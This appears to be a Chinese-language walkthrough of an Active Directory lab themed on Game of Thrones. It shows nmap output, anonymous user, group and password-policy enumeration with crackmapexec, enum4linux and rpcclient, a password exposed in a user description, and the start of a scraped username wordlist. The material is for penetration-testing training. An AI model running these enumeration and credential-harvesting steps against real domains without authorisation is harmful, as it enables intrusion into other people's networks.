|_clock-skew: mean: 46m50s, deviation: 2h20m02s, median: 9s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: meereen
|   NetBIOS computer name: MEEREEN\x00
|   Domain name: essos.local
|   Forest name: essos.local
|   FQDN: meereen.essos.local
|_System time: 2023-06-02T02:56:29-07:00
|_nbstat: NetBIOS name: MEEREEN, NetBIOS user: <unknown>, NetBIOS MAC: 080027b0403a (Oracle VirtualBox virtual NIC)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_message_signing: required
| smb2-security-mode:
|   311:
|_    Message signing enabled and required

Nmap scan report for castelblack.north.sevenkingdoms.local (192.168.56.22)
Host is up (0.0025s latency).
Not shown: 65526 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info:
|   192.168.56.22:1433:
|     Target_Name: NORTH
|     NetBIOS_Domain_Name: NORTH
|     NetBIOS_Computer_Name: CASTELBLACK
|     DNS_Domain_Name: north.sevenkingdoms.local
|     DNS_Computer_Name: castelblack.north.sevenkingdoms.local
|     DNS_Tree_Name: sevenkingdoms.local
|_    Product_Version: 10.0.17763
| ms-sql-info:
|   192.168.56.22:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_TCP port: 1433
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-06-02T00:36:44
|_Not valid after:  2053-06-02T00:36:44
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=castelblack.north.sevenkingdoms.local
| Not valid before: 2023-05-30T06:19:24
|_Not valid after:  2023-11-29T06:19:24
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
|_ssl-date: 2023-06-02T09:57:10+00:00; +10s from scanner time.
| tls-alpn:
|_http/1.1
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2023-05-29T19:41:29
|_Not valid after:  2026-05-28T19:41:29
49682/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2023-06-02T09:56:29
|_start_date: N/A
|_nbstat: NetBIOS name: CASTELBLACK, NetBIOS user: <unknown>, NetBIOS MAC: 080027415a28 (Oracle VirtualBox virtual NIC)
|_clock-skew: mean: 9s, deviation: 0s, median: 9s
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required

Nmap scan report for braavos.essos.local (192.168.56.23)
Host is up (0.0056s latency).
Not shown: 65524 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-06-02T10:00:51+00:00; +10s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-06-02T00:37:20
|_Not valid after:  2053-06-02T00:37:20
| ms-sql-info:
|   192.168.56.23:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info:
|   192.168.56.23:1433:
|     Target_Name: ESSOS
|     NetBIOS_Domain_Name: ESSOS
|     NetBIOS_Computer_Name: BRAAVOS
|     DNS_Domain_Name: essos.local
|     DNS_Computer_Name: braavos.essos.local
|     DNS_Tree_Name: essos.local
|_Product_Version: 10.0.14393
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=braavos.essos.local
| Not valid before: 2023-05-30T06:19:19
|_Not valid after:  2023-11-29T06:19:19
|_ssl-date: 2023-06-02T10:00:51+00:00; +10s from scanner time.
| rdp-ntlm-info:
|   Target_Name: ESSOS
|   NetBIOS_Domain_Name: ESSOS
|   NetBIOS_Computer_Name: BRAAVOS
|   DNS_Domain_Name: essos.local
|   DNS_Computer_Name: braavos.essos.local
|   DNS_Tree_Name: essos.local
|   Product_Version: 10.0.14393
|_  System_Time: 2023-06-02T10:00:08+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn:
|   h2
|_http/1.1
|_ssl-date: 2023-06-02T10:00:51+00:00; +10s from scanner time.
| ssl-cert: Subject: commonName=VAGRANT
| Subject Alternative Name: DNS:VAGRANT, DNS:vagrant
| Not valid before: 2023-05-29T19:46:16
|_Not valid after:  2026-05-28T19:46:16
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49683/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49778/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 52m39s, deviation: 2h28m29s, median: 9s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: braavos
|   NetBIOS computer name: BRAAVOS\x00
|   Domain name: essos.local
|   Forest name: essos.local
|   FQDN: braavos.essos.local
|_  System time: 2023-06-02T03:00:08-07:00
| smb2-security-mode:
|   311:
|_Message signing enabled but not required
|_nbstat: NetBIOS name: BRAAVOS, NetBIOS user: <unknown>, NetBIOS MAC: 080027fe0441 (Oracle VirtualBox virtual NIC)
| smb2-time:
|   date: 2023-06-02T10:00:08
|_start_date: 2023-06-02T00:37:10
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Post-scan script results:
| clock-skew:
|   9s:
|     192.168.56.10 (sevenkingdoms.local)
|     192.168.56.22 (castelblack.north.sevenkingdoms.local)
|     192.168.56.11 (winterfell.north.sevenkingdoms.local)
|     192.168.56.12 (essos.local)
|_    192.168.56.23 (braavos.essos.local)
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .

# Nmap done at Fri Jun  2 06:00:41 2023 -- 5 IP addresses (5 hosts up) scanned in 615.07 seconds
```

## 四、寻找域用户

### 匿名枚举 DC

#### CME

使用cme枚举用户

```bash
crackmapexec smb 192.168.56.0/24 --users
```

```bash
SMB         192.168.56.23   445    BRAAVOS          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:BRAAVOS) (domain:essos.local) (signing:False) (SMBv1:True)
SMB         192.168.56.10   445    KINGSLANDING     [*] Windows 10.0 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.12   445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         192.168.56.22   445    CASTELBLACK      [*] Windows 10.0 Build 17763 x64 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (signing:False) (SMBv1:False)
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.23   445    BRAAVOS          [-] Error enumerating domain users using dc ip 192.168.56.23: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
SMB         192.168.56.23   445    BRAAVOS          [*] Trying with SAMRPC protocol
SMB         192.168.56.10   445    KINGSLANDING     [-] Error enumerating domain users using dc ip 192.168.56.10: NTLM needs domain\username and a password
SMB         192.168.56.10   445    KINGSLANDING     [*] Trying with SAMRPC protocol
SMB         192.168.56.12   445    MEEREEN          [-] Error enumerating domain users using dc ip 192.168.56.12: NTLM needs domain\username and a password
SMB         192.168.56.22   445    CASTELBLACK      [-] Error enumerating domain users using dc ip 192.168.56.22: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
SMB         192.168.56.12   445    MEEREEN          [*] Trying with SAMRPC protocol
SMB         192.168.56.22   445    CASTELBLACK      [*] Trying with SAMRPC protocol
SMB         192.168.56.11   445    WINTERFELL       [-] Error enumerating domain users using dc ip 192.168.56.11: NTLM needs domain\username and a password
SMB         192.168.56.11   445    WINTERFELL       [*] Trying with SAMRPC protocol
SMB         192.168.56.11   445    WINTERFELL       [+] Enumerated domain user(s)
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\Guest                          Built-in account for guest access to the computer/domain
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\arya.stark                     Arya Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\sansa.stark                    Sansa Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\brandon.stark                  Brandon Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\rickon.stark                   Rickon Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\hodor                          Brainless Giant
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\jon.snow                       Jon Snow
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\samwell.tarly                  Samwell Tarly (Password : Heartsbane)
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\jeor.mormont                   Jeor Mormont
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\sql_svc                        sql service
```

获取了用户信息，发现samwell.tarly备注密码是Heartsbane

在开始爆破前，检索密码策略

```bash
cme smb 192.168.56.11 --pass-pol
```

```bash
SMB         192.168.56.11   445    WINTERFELL       [*] Windows 10.0 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         192.168.56.11   445    WINTERFELL       [+] Dumping password info for domain: NORTH
SMB         192.168.56.11   445    WINTERFELL       Minimum password length: 5
SMB         192.168.56.11   445    WINTERFELL       Password history length: 24
SMB         192.168.56.11   445    WINTERFELL       Maximum password age: 311 days 2 minutes
SMB         192.168.56.11   445    WINTERFELL
SMB         192.168.56.11   445    WINTERFELL       Password Complexity Flags: 000000
SMB         192.168.56.11   445    WINTERFELL        Domain Refuse Password Change: 0
SMB         192.168.56.11   445    WINTERFELL        Domain Password Store Cleartext: 0
SMB         192.168.56.11   445    WINTERFELL        Domain Password Lockout Admins: 0
SMB         192.168.56.11   445    WINTERFELL        Domain Password No Clear Change: 0
SMB         192.168.56.11   445    WINTERFELL        Domain Password No Anon Change: 0
SMB         192.168.56.11   445    WINTERFELL        Domain Password Complex: 0
SMB         192.168.56.11   445    WINTERFELL
SMB         192.168.56.11   445    WINTERFELL       Minimum password age: 1 day 4 minutes
SMB         192.168.56.11   445    WINTERFELL       Reset Account Lockout Counter: 5 minutes
SMB         192.168.56.11   445    WINTERFELL       Locked Account Duration: 5 minutes
SMB         192.168.56.11   445    WINTERFELL       Account Lockout Threshold: 5
SMB         192.168.56.11   445    WINTERFELL       Forced Log off Time: Not Set
```

密码策略设置是，如果在 5 分钟内失败 5 次，我们将锁定帐户 5 分钟

#### enum4linux

常规信息

```bash
 =========================================( Target Information )=========================================

Target ........... 192.168.56.11
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===========================( Enumerating Workgroup/Domain on 192.168.56.11 )===========================


[+] Got domain/workgroup name: NORTH


 ===============================( Nbtstat Information for 192.168.56.11 )===============================

Looking up status of 192.168.56.11
 NORTH           <1c> - <GROUP> B <ACTIVE>  Domain Controllers
 NORTH           <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
 WINTERFELL      <00> -         B <ACTIVE>  Workstation Service
 WINTERFELL      <20> -         B <ACTIVE>  File Server Service
 NORTH           <1b> -         B <ACTIVE>  Domain Master Browser

 MAC Address = 08-00-27-34-1F-C8

 ===================================( Session Check on 192.168.56.11 )===================================


[+] Server 192.168.56.11 allows sessions using username '', password ''


 ================================( Getting domain SID for 192.168.56.11 )================================

Domain Name: NORTH
Domain Sid: S-1-5-21-2098312621-1904462239-3964181367

[+] Host is part of a domain (not a workgroup)


 ==================================( OS information on 192.168.56.11 )==================================


[E] Can't get OS info with smbclient


[+] Got OS info for 192.168.56.11 from srvinfo:
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED

```

用户信息

```bash
 =======================================( Users on 192.168.56.11 )=======================================

index: 0x189b RID: 0x456 acb: 0x00000210 Account: arya.stark Name: (null) Desc: Arya Stark
index: 0x18a7 RID: 0x45b acb: 0x00010210 Account: brandon.stark Name: (null) Desc: Brandon Stark
index: 0x16fa RID: 0x1f5 acb: 0x00000215 Account: Guest Name: (null) Desc: Built-in account for guest access to the computer/domain
index: 0x18ab RID: 0x45d acb: 0x00000210 Account: hodor Name: (null) Desc: Brainless Giant
index: 0x18b1 RID: 0x460 acb: 0x00000210 Account: jeor.mormont Name: (null) Desc: Jeor Mormont
index: 0x18ad RID: 0x45e acb: 0x00040210 Account: jon.snow Name: (null) Desc: Jon Snow
index: 0x18a9 RID: 0x45c acb: 0x00000210 Account: rickon.stark Name: (null) Desc: Rickon Stark
index: 0x18af RID: 0x45f acb: 0x00000210 Account: samwell.tarly Name: (null) Desc: Samwell Tarly (Password : Heartsbane)
index: 0x18a6 RID: 0x45a acb: 0x00000210 Account: sansa.stark Name: (null) Desc: Sansa Stark
index: 0x18b3 RID: 0x461 acb: 0x00000210 Account: sql_svc Name: (null) Desc: sql service

user:[Guest] rid:[0x1f5]
user:[arya.stark] rid:[0x456]
user:[sansa.stark] rid:[0x45a]
user:[brandon.stark] rid:[0x45b]
user:[rickon.stark] rid:[0x45c]
user:[hodor] rid:[0x45d]
user:[jon.snow] rid:[0x45e]
user:[samwell.tarly] rid:[0x45f]
user:[jeor.mormont] rid:[0x460]
user:[sql_svc] rid:[0x461]

 =================================( Share Enumeration on 192.168.56.11 )=================================

do_connect: Connection to 192.168.56.11 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)

 Sharename       Type      Comment
 ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on 192.168.56.11
```

密码策略

```bash
 ===========================( Password Policy Information for 192.168.56.11 )===========================


[+] Attaching to 192.168.56.11 using a NULL share

[+] Trying protocol 139/SMB...

 [!] Protocol failed: Cannot request session (Called Name:192.168.56.11)

[+] Trying protocol 445/SMB...

[+] Found domain(s):

 [+] NORTH
 [+] Builtin

[+] Password Info for Domain: NORTH

 [+] Minimum password length: 5
 [+] Password history length: 24
 [+] Maximum password age: 311 days 2 minutes
 [+] Password Complexity Flags: 000000

  [+] Domain Refuse Password Change: 0
  [+] Domain Password Store Cleartext: 0
  [+] Domain Password Lockout Admins: 0
  [+] Domain Password No Clear Change: 0
  [+] Domain Password No Anon Change: 0
  [+] Domain Password Complex: 0

 [+] Minimum password age: 1 day 4 minutes
 [+] Reset Account Lockout Counter: 5 minutes
 [+] Locked Account Duration: 5 minutes
 [+] Account Lockout Threshold: 5
 [+] Forced Log off Time: Not Set


[+] Retieved partial password policy with rpcclient:


Password Complexity: Disabled
Minimum Password Length: 5

```

枚举域组成员得到完整的域用户列表

```bash
 ======================================( Groups on 192.168.56.11 )======================================


[+] Getting builtin groups:

group:[Guests] rid:[0x222]
group:[Remote Desktop Users] rid:[0x22b]
group:[Network Configuration Operators] rid:[0x22c]
group:[Performance Monitor Users] rid:[0x22e]
group:[Performance Log Users] rid:[0x22f]
group:[Distributed COM Users] rid:[0x232]
group:[IIS_IUSRS] rid:[0x238]
group:[Cryptographic Operators] rid:[0x239]
group:[Event Log Readers] rid:[0x23d]
group:[Certificate Service DCOM Access] rid:[0x23e]
group:[RDS Remote Access Servers] rid:[0x23f]
group:[RDS Endpoint Servers] rid:[0x240]
group:[RDS Management Servers] rid:[0x241]
group:[Hyper-V Administrators] rid:[0x242]
group:[Access Control Assistance Operators] rid:[0x243]
group:[Remote Management Users] rid:[0x244]
group:[Storage Replica Administrators] rid:[0x246]
group:[Pre-Windows 2000 Compatible Access] rid:[0x22a]
group:[Windows Authorization Access Group] rid:[0x230]
group:[Terminal Server License Servers] rid:[0x231]
group:[Users] rid:[0x221]

[+]  Getting builtin group memberships:

Group: Windows Authorization Access Group' (RID: 560) has member: Couldn't lookup SIDs
Group: Users' (RID: 545) has member: Couldn't lookup SIDs
Group: Pre-Windows 2000 Compatible Access' (RID: 554) has member: Couldn't lookup SIDs
Group: IIS_IUSRS' (RID: 568) has member: Couldn't lookup SIDs
Group: Remote Desktop Users' (RID: 555) has member: Couldn't lookup SIDs
Group: Guests' (RID: 546) has member: Couldn't lookup SIDs

[+]  Getting local groups:

group:[Cert Publishers] rid:[0x205]
group:[RAS and IAS Servers] rid:[0x229]
group:[Allowed RODC Password Replication Group] rid:[0x23b]
group:[Denied RODC Password Replication Group] rid:[0x23c]
group:[DnsAdmins] rid:[0x44e]
group:[AcrossTheSea] rid:[0x455]

[+]  Getting local group memberships:

Group: Denied RODC Password Replication Group' (RID: 572) has member: Couldn't lookup SIDs
Group: AcrossTheSea' (RID: 1109) has member: Couldn't lookup SIDs

[+]  Getting domain groups:

group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[DnsUpdateProxy] rid:[0x44f]
group:[Stark] rid:[0x452]
group:[Night Watch] rid:[0x453]
group:[Mormont] rid:[0x454]

[+]  Getting domain group memberships:

Group: 'Stark' (RID: 1106) has member: NORTH\arya.stark
Group: 'Stark' (RID: 1106) has member: NORTH\eddard.stark
Group: 'Stark' (RID: 1106) has member: NORTH\catelyn.stark
Group: 'Stark' (RID: 1106) has member: NORTH\robb.stark
Group: 'Stark' (RID: 1106) has member: NORTH\sansa.stark
Group: 'Stark' (RID: 1106) has member: NORTH\brandon.stark
Group: 'Stark' (RID: 1106) has member: NORTH\rickon.stark
Group: 'Stark' (RID: 1106) has member: NORTH\hodor
Group: 'Stark' (RID: 1106) has member: NORTH\jon.snow
Group: 'Night Watch' (RID: 1107) has member: NORTH\jon.snow
Group: 'Night Watch' (RID: 1107) has member: NORTH\samwell.tarly
Group: 'Night Watch' (RID: 1107) has member: NORTH\jeor.mormont
Group: 'Mormont' (RID: 1108) has member: NORTH\jeor.mormont
Group: 'Domain Computers' (RID: 515) has member: NORTH\CASTELBLACK$
Group: 'Group Policy Creator Owners' (RID: 520) has member: NORTH\Administrator
Group: 'Domain Users' (RID: 513) has member: NORTH\Administrator
Group: 'Domain Users' (RID: 513) has member: NORTH\vagrant
Group: 'Domain Users' (RID: 513) has member: NORTH\krbtgt
Group: 'Domain Users' (RID: 513) has member: NORTH\SEVENKINGDOMS$
Group: 'Domain Users' (RID: 513) has member: NORTH\arya.stark
Group: 'Domain Users' (RID: 513) has member: NORTH\eddard.stark
Group: 'Domain Users' (RID: 513) has member: NORTH\catelyn.stark
Group: 'Domain Users' (RID: 513) has member: NORTH\robb.stark
Group: 'Domain Users' (RID: 513) has member: NORTH\sansa.stark
Group: 'Domain Users' (RID: 513) has member: NORTH\brandon.stark
Group: 'Domain Users' (RID: 513) has member: NORTH\rickon.stark
Group: 'Domain Users' (RID: 513) has member: NORTH\hodor
Group: 'Domain Users' (RID: 513) has member: NORTH\jon.snow
Group: 'Domain Users' (RID: 513) has member: NORTH\samwell.tarly
Group: 'Domain Users' (RID: 513) has member: NORTH\jeor.mormont
Group: 'Domain Users' (RID: 513) has member: NORTH\sql_svc
Group: 'Domain Guests' (RID: 514) has member: NORTH\Guest

 ==================( Users on 192.168.56.11 via RID cycling (RIDS: 500-550,1000-1050) )==================


[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.


 ===============================( Getting printer info for 192.168.56.11 )===============================

do_cmd: Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED


enum4linux complete on Sat Jun  3 09:57:42 2023

```

#### rpcclient枚举

相对标识符(Relative Identifier，RID)是Windows用于跟踪和识别对象的唯一标识符(十六进制表示)
为了说明它的作用，让我们看下面的示例：

- NAME_DOMAIN.LOCAL域的SID是：S-1-5-21-1038751438-1834703946-36937684957

- 在域内创建对象时，上述数字(SID)将与RID组合，以生成一个用于表示对象的唯一值
因此，带有RID：[0x457] Hex 0x457等于十进制数1111的域用户john，其完整的用户SID为：S-1-5-21-1038751438-1834703946-36937684957-1111

- 这是该域中john对象的唯一标识符，您永远不会在该域或任何其他域中看到此配对值与其他对象相关联

定义来自[此处](https://academy.hackthebox.com/module/143/section/1269)

您可以使用Samba rpcclient实用程序通过命名管道与RPC端点交互以下列出了在建立SMB会话后(通常需要凭据)可以向SAMR、LSARPC和LSARPC-DS接口发出的命令

rpcclient连接

```bash
rpcclient -U "NORTH\\" 192.168.56.11 -N
```

域信息

```bash
rpcclient $> querydominfo
```

```bash
Domain:  NORTH
Server:
Comment:
Total Users: 52
Total Groups: 73
Total Aliases: 14
Sequence No: 1
Force Logoff: -1
Domain Server State: 0x1
Server Role: ROLE_DOMAIN_PDC
Unknown 3: 0x1
```

枚举域用户

```bash
rpcclient $> enumdomusers
```

```bash
user:[Guest] rid:[0x1f5]
user:[arya.stark] rid:[0x456]
user:[sansa.stark] rid:[0x45a]
user:[brandon.stark] rid:[0x45b]
user:[rickon.stark] rid:[0x45c]
user:[hodor] rid:[0x45d]
user:[jon.snow] rid:[0x45e]
user:[samwell.tarly] rid:[0x45f]
user:[jeor.mormont] rid:[0x460]
user:[sql_svc] rid:[0x461]
rpcclient $> enumdomgroups
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[DnsUpdateProxy] rid:[0x44f]
group:[Stark] rid:[0x452]
group:[Night Watch] rid:[0x453]
group:[Mormont] rid:[0x454]
```

枚举域组

```bash
rpcclient $> enumdomgroups
```

```bash
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[DnsUpdateProxy] rid:[0x44f]
group:[Stark] rid:[0x452]
group:[Night Watch] rid:[0x453]
group:[Mormont] rid:[0x454]
```

组查询

```bash
rpcclient $> querygroup 0x201
```

```bash
 Group Name: Domain Users
 Description: All domain users
 Group Attribute:7
 Num Members:16
```

用户信息查询

```bash
rpcclient $> queryuser jon.snow
```

```bash
 User Name   : jon.snow
 Full Name   :
 Home Drive  :
 Dir Drive   :
 Profile Path:
 Logon Script:
 Description : Jon Snow
 Workstations:
 Comment     :
 Remote Dial :
 Logon Time               : Wed, 31 Dec 1969 19:00:00 EST
 Logoff Time              : Wed, 31 Dec 1969 19:00:00 EST
 Kickoff Time             : Wed, 13 Sep 30828 22:48:05 EDT
 Password last set Time   : Wed, 31 May 2023 05:44:15 EDT
 Password can change Time : Thu, 01 Jun 2023 05:44:15 EDT
 Password must change Time: Wed, 13 Sep 30828 22:48:05 EDT
 unknown_2[0..31]...
 user_rid : 0x45e
 group_rid: 0x201
 acb_info : 0x00040210
 fields_present: 0x00ffffff
 logon_divs: 168
 bad_password_count: 0x00000000
 logon_count: 0x00000000
 padding1[0..7]...
 logon_hrs[0..21]...
```

枚举权限

```bash
rpcclient $> enumprivs
```

```bash
found 35 privileges

SeCreateTokenPrivilege   0:2 (0x0:0x2)
SeAssignPrimaryTokenPrivilege   0:3 (0x0:0x3)
SeLockMemoryPrivilege   0:4 (0x0:0x4)
SeIncreaseQuotaPrivilege   0:5 (0x0:0x5)
SeMachineAccountPrivilege   0:6 (0x0:0x6)
SeTcbPrivilege   0:7 (0x0:0x7)
SeSecurityPrivilege   0:8 (0x0:0x8)
SeTakeOwnershipPrivilege   0:9 (0x0:0x9)
SeLoadDriverPrivilege   0:10 (0x0:0xa)
SeSystemProfilePrivilege   0:11 (0x0:0xb)
SeSystemtimePrivilege   0:12 (0x0:0xc)
SeProfileSingleProcessPrivilege   0:13 (0x0:0xd)
SeIncreaseBasePriorityPrivilege   0:14 (0x0:0xe)
SeCreatePagefilePrivilege   0:15 (0x0:0xf)
SeCreatePermanentPrivilege   0:16 (0x0:0x10)
SeBackupPrivilege   0:17 (0x0:0x11)
SeRestorePrivilege   0:18 (0x0:0x12)
SeShutdownPrivilege   0:19 (0x0:0x13)
SeDebugPrivilege   0:20 (0x0:0x14)
SeAuditPrivilege   0:21 (0x0:0x15)
SeSystemEnvironmentPrivilege   0:22 (0x0:0x16)
SeChangeNotifyPrivilege   0:23 (0x0:0x17)
SeRemoteShutdownPrivilege   0:24 (0x0:0x18)
SeUndockPrivilege   0:25 (0x0:0x19)
SeSyncAgentPrivilege   0:26 (0x0:0x1a)
SeEnableDelegationPrivilege   0:27 (0x0:0x1b)
SeManageVolumePrivilege   0:28 (0x0:0x1c)
SeImpersonatePrivilege   0:29 (0x0:0x1d)
SeCreateGlobalPrivilege   0:30 (0x0:0x1e)
SeTrustedCredManAccessPrivilege   0:31 (0x0:0x1f)
SeRelabelPrivilege   0:32 (0x0:0x20)
SeIncreaseWorkingSetPrivilege   0:33 (0x0:0x21)
SeTimeZonePrivilege   0:34 (0x0:0x22)
SeCreateSymbolicLinkPrivilege   0:35 (0x0:0x23)
SeDelegateSessionUserImpersonatePrivilege   0:36 (0x0:0x24)
```

获取所有域用户

```bash
net rpc group members 'Domain Users' -W 'NORTH' -I '192.168.56.11' -U '%'
```

```bash
NORTH\Administrator
NORTH\vagrant
NORTH\krbtgt
NORTH\SEVENKINGDOMS$
NORTH\arya.stark
NORTH\eddard.stark
NORTH\catelyn.stark
NORTH\robb.stark
NORTH\sansa.stark
NORTH\brandon.stark
NORTH\rickon.stark
NORTH\hodor
NORTH\jon.snow
NORTH\samwell.tarly
NORTH\jeor.mormont
NORTH\sql_svc
```

更多[RPCClient枚举示例](https://mp.weixin.qq.com/s?__biz=Mzg4MTU4NTc2Nw==&mid=2247489122&idx=3&sn=72b43e57f58067cded2e8c4f9d463363)

### 字典枚举有效用户

Winterfell域控制器允许匿名连接,这就是我们可以列出域用户和组的原因

但是现在几乎不会发生这种类型的配置(相反，在用户描述中使用密码经常发生x)

使用暴力破解来枚举有效用户

生成用户名字典

```bash
curl -s https://www.hbo.com/game-of-thrones/cast-and-crew | grep 'href="/game-of-thrones/cast-and-crew/'| grep -o 'aria-label="[^"]*"' | cut -d '"' -f 2 | awk '{if($2 == "") {print tolower($1)} else {print tolower($1) "." tolower($2);} }' > got_users.txt
```

```bash
cat got_users.txt
```

```bash
robert.baratheon
robert.baratheon
tyrion.lannister
tyrion.lannister
cersei.lannister
cersei.lannister
catelyn.stark
catelyn.stark
jaime.lannister
jaime.lannister
daenerys.targaryen
daenerys.targaryen
viserys.targaryen
viserys.targaryen
jon.snow
jon.snow
robb.stark
robb.stark
sansa.stark
sansa.stark
arya.stark
arya.stark
bran.stark
bran.stark
rickon.stark
rickon.stark
joffrey.baratheon
joffrey.baratheon
jorah.mormont
jorah.mormont
theon.greyjoy
theon.greyjoy
samwell.tarly
samwell.tarly
renly.baratheon
renly.baratheon
ros
ros
jeor.mormont
jeor.mormont
gendry
gendry
lysa.arryn
lysa.arryn
robin.arryn
robin.arryn
bronn
bronn
grand.maester
grand.maester
varys
varys
loras.tyrell
loras.tyrell
shae
shae
benjen.stark
benjen.stark
barristan.selmy
barristan.selmy
khal.drogo
khal.drogo
hodor
hodor
lancel.lannister
lancel.lannister
maester.luwin
maester.luwin
alliser.thorne
alliser.thorne
osha
osha
maester.aemon
maester.aemon
talisa.stark
talisa.stark
brienne.of
brienne.of
davos.seaworth
davos.seaworth
tywin.lannister
tywin.lannister
stannis.baratheon
stannis.baratheon
margaery.tyrell
margaery.tyrell
ygritte
ygritte
balon.greyjoy
balon.greyjoy
roose.bolton
roose.bolton
gilly
gilly
podrick.payne
podrick.payne
melisandre
melisandre
yara.greyjoy
yara.greyjoy
jaqen.h’ghar
